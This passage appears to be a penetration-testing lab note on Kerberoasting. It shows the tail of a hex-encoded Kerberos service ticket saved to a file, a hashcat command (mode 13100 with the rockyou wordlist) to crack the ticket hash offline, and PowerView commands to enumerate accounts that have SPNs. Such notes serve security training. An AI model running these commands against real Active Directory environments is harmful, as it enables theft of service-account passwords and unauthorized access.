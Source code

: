 ```
                       BFD353BDA6BF3652D57D8B00E8DF707BA5D8163691FE7AB84992143C17B9E02A996B2B4AAF6CABFE0D1C1A478258A294
                       83FDD40ADC2B979838D42F99EB96C7DA120ABA83C7FAF07079862B384EBD97B809C6BA6FB99683CCD2C9693A5A0E4404
                       6BE4ED6BBC5B4038567209EC5F804A3446C0D0127343F038D12867435FC89946FC39832590B8BF9B7E5E77EE2C12F0AA
                       EFB89C7CA940021392C96900703C6D8D9BAC766BC3B4E0898095261813E5C81FD6D312E68F95A16F3AA23F858B1A4F4C
                       A8674E0C43A57516029A5B0DE6D5567846FC4AB4F49692F215415E88788D929757B59A8FDC0EE8F5E3AEBD304CD16D45
                       19B3EF882554667FB2AC9987BAF40512C4E08D6CAA120AAD48F4FFBA1A6E01547DA42BEB908E8C898E106C8B2BBC0CE5
                       A73D5792FC2D9F6B9337993F27F4C5100FACC9987F170EB7510D6DD668A92CBDC1FDCD3850E381B97A92446C0138E0E2
                       875B33ADE0B24285C24D1D87097B5C209E9A48FB87D0D2F11CBD6D3EB37A7B221636239AEF7D5110C4005324DA1DED07
                       AF1BA5EE3EC056DCBDA027821DDF80ECB28B88E5D49A74C1965C191333A8CF80909A90BEDC8CFC79FAFDE69A9D1B44ED
                       58A7106F47652E8CC4070FB17FD1155A1FE4587204530715B1184645E2C4D74CC742E4644C6D787FD65A62CA28F8442D
                       7DF0E3A775BBBA5C8945798AAD738920EA05D2A8A826B7118D03C7E75D90E329984131FF3C753B1D247DD2947B68CA32
                       6CBCEEE43D494587428F7550B46B5CDB5432E56329DD67AB371821C6B47C59BC44F' | tr -d "[:space:]" > tgs_file
```
## **Viewing the Prepared Hash**

```Bash
cat sqldev_tgs_hashcat
```

## **Cracking the Hash with Hashcat**

```Bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

---

# Automated / Tool Based Route

> [!important] Much Quicker Way of Kerberoasting using automated tools

## PowerView

### **Using PowerView to Enumerate SPN Accounts**

```Bash
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
